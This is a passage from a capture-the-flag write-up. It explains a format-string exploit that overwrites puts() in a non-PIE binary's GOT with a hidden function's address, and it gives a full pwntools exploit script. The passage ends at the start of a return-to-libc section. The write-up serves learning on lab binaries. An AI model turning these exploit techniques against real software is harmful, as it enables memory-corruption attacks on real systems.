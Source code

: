 We replace the address of `puts()` in the GOT with the address of the hidden function `holidays()`.

1. We inject in the first buffer the address of puts() in the GOT
2. We use `%<int>s`  to make `printf()`  print <address of holidays()> bytes.
3. With `%6$lln` we overwrite the address of `puts()` in the GOT with the address of `holidays()`. We know the latter because the binary is not a PIE.
   - `%6$lln` writes the number of bytes written so far for the format string in the variable pointed by the positional parameter. 6 is for using the address stored in the first buffer, which points to `puts()` in the GOT

```python
#!/usr/bin/env python3
#
# Exploit: non-PIE bin, format string with arbitrary memory write
# Replace the address of puts() in the GOT with the address of the hidden
# function holidays().
# 1. We inject in the first buffer the address of puts() in the GOT
# 2. We use %<int>s to make puts() print <address of holidays()> bytes.
# 3. With %6$lln we overwrite the address of puts() in the GOT with
#    <address of holidays()>. 6 is for using the address stored in the first
#    buffer

from pwn import *


context.update(arch="amd64", os="linux")

binary = ELF("./pwn108.pwn108")
process = process("./pwn108.pwn108")
# process = remote("xxx", 9008)

process.clean()
print(f"GOT entry fot puts(): {hex(binary.got.puts)}")
process.sendline(p64(binary.got.puts))

process.clean()
print(f"Address of holidays(): {str(binary.symbols.holidays)}")

fmt_str = b"%" + str(binary.symbols.holidays).encode("utf-8") + b"s%6$lln"
print(f"Format string: " + fmt_str.decode("utf-8"))

process.sendline(fmt_str)
process.clean()

process.interactive()
```

## PWN109 - Return to libc for a non-PIE binary

### Binary behaviour

```shell
root@c18329d2a566:~# ./pwn109.pwn109
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 109

This time no 🗑️ 🤫 & 🐈🚩.📄 Go ahead 😏
mah
root@c18329d2a566:~# ./pwn109.pwn109
       ┌┬┐┬─┐┬ ┬┬ ┬┌─┐┌─┐┬┌─┌┬┐┌─┐
        │ ├┬┘└┬┘├─┤├─┤│  ├┴┐│││├┤
        ┴ ┴└─ ┴ ┴ ┴┴ ┴└─┘┴ ┴┴ ┴└─┘
                 pwn 109
```
